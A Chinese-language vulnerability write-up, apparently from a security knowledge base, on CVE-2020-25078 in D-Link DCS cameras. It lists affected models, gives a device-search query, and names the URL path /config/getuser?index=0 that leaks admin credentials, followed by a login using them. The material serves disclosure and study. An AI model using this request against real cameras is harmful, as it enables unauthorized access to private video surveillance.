 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

```
DCS-2530L
DCS-2670L
DCS-4603
DCS-4622
DCS-4701E
DCS-4703E
DCS-4705E
DCS-4802E
DCS-P703
```

## 网络测绘

```
app="D_Link-DCS-2530L"
```

## 漏洞复现

访问登录页面如下



![](images/202202162226738.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![](images/202202162227778.png)

使用泄露的账号密码登陆系统

![](images/202202162227388.png)
